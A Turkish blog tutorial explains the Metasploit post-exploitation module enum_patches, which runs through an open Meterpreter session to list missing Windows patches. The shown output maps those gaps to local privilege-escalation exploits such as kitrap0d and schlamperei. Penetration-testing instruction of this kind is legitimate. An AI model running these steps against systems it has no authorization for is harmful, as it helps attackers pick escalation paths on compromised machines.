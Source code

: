```yaml
---
draft: false
title: MSF İçinde Windows Güncelleme Keşfi
linkTitle: Windows Güncelleme Keşfi
weight: 150
translationKey: msf-windows-update-discovery
date: 2017-05-16T13:01:00+03:00
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))
description: Windows işletim sistemine Meterpreter shell açtığınızda, hangi güncellemeleri ve yamaları yaptığını, hangilerini yapmadığını keşfetmek isteyebilirsiniz.
url: /tr/msf-icinde-windows-guncelleme-kesfi/
featured_image: /images/metasploit.jpg
categories:
   - Metasploit Framework
tags:
   - cybersecurity
   - metasploit framework
---
```

Metasploit Framework içerisinden bir Windows işletim sistemine Meterpreter shell açtığınızda, işletim sisteminin hangi güncellemeleri ve yamaları yaptığını, hangilerini yapmadığını keşfetmek isteyebilirsiniz.

Bunun için kullanılan `post/windows/gather/enum_patches` modülünün kullanımına ait bir örneği aşağıda bulabilirsiniz. Modül, isminden de anlaşılacağı gibi bir **post exploitation** modülüdür ve öncelikle hedef bilgisayarda bir `meterpreter` açık olmalıdır.

Aşağıdaki çıktıda, `use` komutu ile modül yüklenmiş ve seçenekleri görüntülenmiştir.

```bash
msf exploit(handler) > use post/windows/gather/enum_patches
msf post(enum_patches) > show options

Module options (post/windows/gather/enum_patches):

   Name       Current Setting       Required  Description
   ----       ---------------       --------  -----------
   KB         KB2871997, KB2928120  yes       A comma separated list of KB patches to search for
   MSFLOCALS  true                  yes       Search for missing patchs for which there is a MSF local module
   SESSION                          yes       The session to run this module on.
```

Modül hakkında detaylı bilgileri `show advanced` komutuyla inceleyebilirsiniz.

```bash
msf post(enum_patches) > show advanced

Module advanced options (post/windows/gather/enum_patches):

   Name           : VERBOSE
   Current Setting: true
   Description    : Enable detailed status messages

   Name           : WORKSPACE
   Current Setting: 
   Description    : Specify the workspace for this module
```

Bir `exploit` kullanarak Windows işletim sistemin Meterpreter shell açtıktan sonra oturumu arka plana gönderin ve `use` komutuyla `enum_patches` modülünü yükleyin. Aşağıdaki `show options` komutundaki çıktıda bulunan `SESSION` değişkeni, arka plana gönderdiğimiz meterpreter shell in oturum numarası olmalıdır. Arka plandaki oturumları `sessions -l` komutu ile görebilirsiniz. Gerekli kontrolleri yaptıktan sonra `run` komutunu verdiğinizde Windows bilgisayarın hangi güncellemeleri yapıp yapmadığını görebilirsiniz.

```bash
msf post(enum_patches) > show options

Module options (post/windows/gather/enum_patches):

   Name       Current Setting       Required  Description
   ----       ---------------       --------  -----------
   KB         KB2871997, KB2928120  yes       A comma separated list of KB patches to search for
   MSFLOCALS  true                  yes       Search for missing patchs for which there is a MSF local module
   SESSION    1                     yes       The session to run this module on.

msf post(enum_patches) > run

> KB2871997 applied
[+] KB2928120 is missing
[+] KB977165 - Possibly vulnerable to MS10-015 kitrap0d if Windows 2K SP4 - Windows 7 (x86)
> KB2305420 applied
[+] KB2592799 - Possibly vulnerable to MS11-080 afdjoinleaf if XP SP2/SP3 Win 2k3 SP2
[+] KB2778930 - Possibly vulnerable to MS13-005 hwnd_broadcast, elevates from Low to Medium integrity
[+] KB2850851 - Possibly vulnerable to MS13-053 schlamperei if x86 Win7 SP0/SP1
[+] KB2870008 - Possibly vulnerable to MS13-081 track_popup_menu if x86 Windows 7 SP0/SP1
> Post module execution completed
```

Yukarıda görüldüğü gibi başında [+] işareti bulunan güncellemelerin sistemde yapılmadığı rapor edilmektedir.
